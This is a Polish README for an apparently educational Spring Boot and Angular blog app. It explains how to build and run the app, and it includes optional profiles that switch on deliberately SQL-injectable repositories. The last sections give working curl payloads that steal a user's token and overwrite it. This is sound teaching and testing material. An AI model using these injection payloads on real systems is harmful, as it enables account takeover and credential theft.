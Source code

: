 # Blog application

## Jak uruchomić?

Aplikacja składa się z dwóch modułów - `application/server` zawierający backend w `Spring Boot` oraz `application/frontend` zawierający aplikację frontendową opartą o `Angular`.

Projekt skonstruowany jest w taki sposób, że `application/frontend` jest zależnością do `application/server`. Zatem budując serwer, najpierw musi zostać zbudowany frontend. Wszystko jest już ze sobą połączone.


1. Aby uruchomić aplikację wystarczy użyć taska:
    ```
    ./gradlew bootRun
    ```
    
    > W przypadku problemów z cache'owaniem plików frontendowych, można użyć dodatkowo taska `clean`:
    > ```
    > ./gradlew clean bootRun
    > ```
    
    Po wydaniu polecenia w konsoli widać:
    
    ```
    2021-05-03 16:32:50.045  INFO 41222 --- [           main] o.s.s.concurrent.ThreadPoolTaskExecutor  : Initializing ExecutorService 'applicationTaskExecutor'
    2021-05-03 16:32:50.096  INFO 41222 --- [           main] o.s.b.a.w.s.WelcomePageHandlerMapping    : Adding welcome page: class path resource [static/index.html]
    2021-05-03 16:32:50.240  INFO 41222 --- [           main] o.s.s.web.DefaultSecurityFilterChain     : Will secure any request with [org.springframework.security.web.context.request.async.WebAsyncManagerIntegrationFilter@71a7cf7c, org.springframework.security.web.context.SecurityContextPersistenceFilter@447630c4, org.springframework.security.web.header.HeaderWriterFilter@951e911, org.springframework.security.web.authentication.logout.LogoutFilter@62ff14cd, pl.kul.blog.infrastructure.authentication.filters.pwd.UsernameAndPasswordAuthenticationFilter@7f49df25, pl.kul.blog.infrastructure.authentication.filters.token.TokenAuthenticationFilter@5b29d699, org.springframework.security.web.savedrequest.RequestCacheAwareFilter@4c8afba, org.springframework.security.web.servletapi.SecurityContextHolderAwareRequestFilter@5c65fa69, org.springframework.security.web.authentication.AnonymousAuthenticationFilter@5a5a973c, org.springframework.security.web.session.SessionManagementFilter@7022fb5c, org.springframework.security.web.access.ExceptionTranslationFilter@4d6027be, org.springframework.security.web.access.intercept.FilterSecurityInterceptor@3d605657]
    2021-05-03 16:32:50.274  INFO 41222 --- [           main] o.s.b.w.embedded.tomcat.TomcatWebServer  : Tomcat started on port(s): 8080 (http) with context path ''
    2021-05-03 16:32:50.281  INFO 41222 --- [           main] pl.kul.blog.BlogApplication              : Started BlogApplication in 2.51 seconds (JVM running for 2.748)
    <============-> 93% EXECUTING [43s]
    > :application:server:bootRun
    ```
    Zostaje uruchomiony serwer HTTP, który nasłuchuje na porcie 8080.

2. Następnie należy wejść na stronę http://localhost:8080/ i założyć nowego użytkownika
   
    > Zarówno zakładanie użytkownika jak i logowanie zajmuje kilka sekund - to celowy zabieg `Spring`'a
3. Volia!

## Budowanie pliku wykonywalnego

Został użyty plugin `org.beryx.runtime`, który definiuje dodatkowy task o nazwie `jpackage`. Task ten wykorzystuje pod spodem [narzędzie dostępne w JDK (>= 15) `jpackage`](https://openjdk.java.net/jeps/392). Narzędzie umożliwia utworzenie kopii maszyny wirutalnej (klient uruchamiający aplikację nie musi mieć swojego własnego `JRE`) i załącza odpowiednie skrypty uruchamiające (per platforma).

Aby zbudować plik wykonywalny, należy użyć polecenia:

```
./gradlew jpackage
```

Wówczas w katalogu `application/server/build/jpackage` powstanie katalog, który zawiera plik `.exe` oraz wszystkie wymagane zależności. Cały ten katalog można spakować i traktować jako aplikację w wersji `portable`.

## Znane problemy/rzeczy do zrobienia

* Najwyższy priorytet
  * [ ] Diagramy prezentujące flow uwierzytelniania użytkownika
* Nice to have
  * [ ] Po odświeżeniu strony/zamknięciu karty użytkownik musi się zalogować. Powodem jest przechowywanie tokena w pamęci, zamiast np. `localStorage`
  * [ ] Brak obsługi błędów połączenia HTTP. Jeżeli np. podczas logowania (`POST /authentication/signin`) poleci błąd 4xx, wówczas na frontendzie "nic nie widać"
* Done
    * Najwyższy priorytet
        * [x] Brak możliwości dodawania nowych postów i komentarzy (trzeba zaimplementować)
    * Nice to have
        * [x] Backend używa bazy danych H2 uruchamianej w pamięci - oznacza to, że po każdym restarcie serwer ma czystą bazę. Trzeba dodać konfigurację umożliwiającą zmianę trybu działania H2 na opartą o plik + możliwość konfiguracji ścieżki.

## SQL Injection

W aplikacji jest zestaw bean'ów odpowiadających za zapis do bazy. Te, które nosza nazwę `Vulnerable*Repository` są podatne na atak `SQL Injection`. Aby uruchomić aplikację z zestawem bean'ów wrażliwych na ten atak, należy aktywować konkretne profile:

* `token-auth-check-vulnerable-to-sql-injection`
* `comments-vulnerable-to-sql-injection`

> Widok zarządzający aplikacją umożliwia włączenie w/w profili.

Jeżeli konkretny profil dotyczący konkretnej funkcjonalności jest aktywny, wówczas ładowany jest odpowiedni zestaw bean'ów (wszystko zawarte wewnątrz `RepositoriesConfiguration`).

## Wyciągnięcie dowolnej pojedynczej wartości z bazy i zapisanie jej w komentarzu

> Test integracyjny `SqlInjection_exploitAddComment` umożliwia symulację tej podatności

```bash
curl 'http://localhost:8080/api/comments/4a2efc6b-ffd7-4b13-b5cb-9913ac47dd17' \
    -X 'PUT' \
    -H 'Connection: keep-alive' \
    -H 'Accept: application/json' \
    -H 'Authorization: token pxsAnl/LzCqynQTzGZg+vPISd54tOxtHWadre9zdXN2y+aWKrv1Cpk6PBMMahUeHj2AJUs8fSRGJIQczb83Erg==' \
    -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36' \
    -H 'Content-Type: application/json' \
    -H 'Sec-GPC: 1' \
    -H 'Origin: http://localhost:8080' \
    -H 'Sec-Fetch-Site: same-origin' \
    -H 'Sec-Fetch-Mode: cors' \
    -H 'Sec-Fetch-Dest: empty' \
    -H 'Referer: http://localhost:8080/' \
    -H 'Accept-Language: en-US,en;q=0.9' \
    --data-binary '{"addToPostId":"f0e69366-5fb7-42c5-ae77-a371043728d6","content":"'\'' + (select token from user_device where user_account_id = (select id from user_account where username = '\''test'\'')) + '\''"}' \
    --compressed
```

## Aktualizacja tokena dowolnego użytkownika

Ustawienie tokena użytkownikowi `test`:
```
curl 'http://localhost:8080/api/posts' \
    -H 'Connection: keep-alive' \
    -H 'Accept: application/json' \
    -H 'Authorization: token '\''; ;update user_device set token='\''sql-injected'\'' where USER_ACCOUNT_ID = (select id from USER_ACCOUNT where USERNAME = '\''test'\'') -- ' \
    -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36' \
    -H 'Sec-GPC: 1' \
    -H 'Sec-Fetch-Site: same-origin' \
    -H 'Sec-Fetch-Mode: cors' \
    -H 'Sec-Fetch-Dest: empty' \
    -H 'Referer: http://localhost:8080/' \
    -H 'Accept-Language: en-US,en;q=0.9' \
    --compressed
```

Pobranie postów ze zmienionym tokenem:
```
    curl 'http://localhost:8080/api/posts' \
    -H 'Connection: keep-alive' \
    -H 'Accept: application/json' \
    -H 'Authorization: token sql-injected' \
    -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36' \
    -H 'Sec-GPC: 1' \
    -H 'Sec-Fetch-Site: same-origin' \
    -H 'Sec-Fetch-Mode: cors' \
    -H 'Sec-Fetch-Dest: empty' \
    -H 'Referer: http://localhost:8080/' \
    -H 'Accept-Language: en-US,en;q=0.9' \
    --compressed
```
#   P r o j e c t P a s s J A V A  
 